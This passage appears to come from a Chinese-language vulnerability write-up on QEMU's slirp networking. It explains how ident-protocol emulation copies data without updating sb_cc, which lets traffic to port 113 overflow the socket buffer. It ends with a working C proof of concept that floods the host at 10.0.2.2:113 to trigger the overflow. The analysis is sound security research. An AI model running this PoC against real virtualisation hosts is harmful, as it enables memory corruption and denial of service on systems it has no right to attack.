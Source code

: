 ```c
// slirp/sbuf.h
struct sbuf {
	uint32_t sb_cc;		/* actual chars in buffer */
	uint32_t sb_datalen;	/* Length of data  */
	char	*sb_wptr;	/* write pointer. points to where the next
				 * bytes should be written in the sbuf */
	char	*sb_rptr;	/* read pointer. points to where the next
				 * byte should be read from the sbuf */
	char	*sb_data;	/* Actual data */
};
```

可以看到在模拟ident协议时，程序拷贝了mbuf中的用户data至sbuf中，同时将sb_wptr和sb_rptr向后加上拷贝的字节数，但是这里程序并未对sb_cc进行任何的操作，在上一层的函数的验证，

```c
// slirp/sbuf.h
#define sbspace(sb) ((sb)->sb_datalen - (sb)->sb_cc)

// slirp/tcp_input.c:tcp_input
    } else if (ti->ti_ack == tp->snd_una &&
		    tcpfrag_list_empty(tp) &&
		    ti->ti_len <= sbspace(&so->so_rcv)) {	// 这里验证sbuf中是否有足够空间
			...
			if (so->so_emu) {
				if (tcp_emu(so,m)) sbappend(so, m);
```

在调用tcp_emu之前，会验证sbuf中的剩余空间是否足够，但是由于在模拟ident协议时拷贝了数据却并未加上相应的长度进sb_cc，这样使得sbspace计算出来的空间并不是sbuf实际的剩余空间。

所以如果用户一直向113端口发送数据的话，那就会造成在sbuf中的溢出。

poc如下：

```c
// poc.c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <netdb.h>
#include <arpa/inet.h>
#include <sys/socket.h>

int main() {
    int s, ret;
    struct sockaddr_in ip_addr;
    char buf[0x500];

    s = socket(AF_INET, SOCK_STREAM, 0);
    ip_addr.sin_family = AF_INET;
    ip_addr.sin_addr.s_addr = inet_addr("10.0.2.2"); // host IP
    ip_addr.sin_port = htons(113); // vulnerable port
    ret = connect(s, (struct sockaddr *)&ip_addr, sizeof(struct sockaddr_in));
    memset(buf, 'A', 0x500);
    while(1) {
        write(s, buf, 0x500);
    }
    return 0;
}
```
